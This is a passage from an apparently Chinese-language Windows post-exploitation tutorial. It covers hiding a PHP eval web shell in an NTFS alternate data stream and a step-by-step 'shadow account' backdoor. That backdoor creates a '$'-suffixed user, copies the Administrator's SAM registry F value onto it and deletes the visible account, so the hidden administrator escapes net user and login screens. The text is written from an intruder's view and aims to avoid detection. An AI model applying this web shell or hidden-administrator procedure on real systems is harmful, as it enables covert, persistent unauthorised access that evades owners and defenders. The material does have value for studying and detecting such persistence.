 > 需要注意的是: 采用文件流的方式  流文件和源文件是互相绑定的. 如第一个例子中 echo "<?php eval($_POST['a']);?>" >>index.php:1.txt ,如果 index.php消失了 那么流文件自动也会消失
> 第二个例子中: 如果 demo 目录消失了 那么对应的 demo:1.txt 也会消失

## 基础篇之影子账户

当我们拿下一台Windows主机时，很多攻击者都会采用创建账号的形式给自己留一个后门，以方便后续登录。这样操作的思路是没有问题的，但这种方式极其容易被用户察觉，比如用户开机以及登录日志里都能查看到。为了更好的隐藏登录账户,这里我们采用 `影子账户`.

影子用户的创建

> 在 windows 环境下创建用户如果后面带了一个"$"符号，在 net user 时默认是不显示的

利用这个特点我们可以创建一个对于 `cmd` 命令来讲的隐藏用户.

![20220621182111](http://particles.oss-cn-beijing.aliyuncs.com/img%5C374ab44cda80bba2533c3497e4f7bc7d.png)

可以看到 `net user ` 的执行结果中并没有我们刚刚创建的用户.但是在重新登陆时还是会显示出我们创建的账户,这显然不是我们希望的.

![20220621182224](http://particles.oss-cn-beijing.aliyuncs.com/img%5C13b34c5f7da4b550f752b3b6958927a6.png)

`克隆账号`

// TODO 克隆账号名词概念补充

接下来操作的目的是为了让用户在命令提示符与管理工具中无法查看到我们添加的账户.

1. 使用 `Windows + r` 输入 `regedit` 打开注册表,找到`HKEY_LOCAL_MACHINE > SAM > SAM`,选中 `SAM` 点击`编辑`中的 `权限`,
将 `Administrators` 的权限改为 `完全控制`.

![20220621183209](http://particles.oss-cn-beijing.aliyuncs.com/img%5C2c0cff7e702bb3aa15c6b657ab482921.png)

2. 按下 `F5` 刷新下注册表,你会发现 `SAM` 下面新增了一些列表. 进入 `SAM > Domain > Account > User > Names`.

![20220621183418](http://particles.oss-cn-beijing.aliyuncs.com/img%5Ca0e17e4dcdd68ba64053c40fa3c2a016.png)

3. 选中 `Administrator` 你会在右边发现一个类型值. 比如我这里是 `0x14`.

![20220621183654](http://particles.oss-cn-beijing.aliyuncs.com/img%5Cdc48da9cc32d0e70f64746f650c0a387.png)

4. 在 `User> `下找到以上诉的`类型值`命名的文件, 右键里面的 `F` 值,复制.

![20220621183723](http://particles.oss-cn-beijing.aliyuncs.com/img%5C4cc5625278eb63441d4774ff825f5cae.png)

5. 再在 `Names>` 下找到你创建用户的的名称,比如我这里是`demo$`,找到对应的类型值, 和 `User>` 下的同名文件的 `F`值,将 `4`
步复制的 `F`值粘贴到里面.
![20220621184753](http://particles.oss-cn-beijing.aliyuncs.com/img%5C878d8a4368e8508f464da13a0330b228.png)

6. 分别导出 第`5`步中的选中的文件夹 和 `Names` 下你创建的用户名.


![20220621184908](http://particles.oss-cn-beijing.aliyuncs.com/img%5C61e512c588e0a8cf0e7ad82da880a247.png)

![20220621184954](http://particles.oss-cn-beijing.aliyuncs.com/img%5C84fbbfccda15fd35343f6a25771d9d0d.png)
7. 删除用户 `net user demo$ /delete`
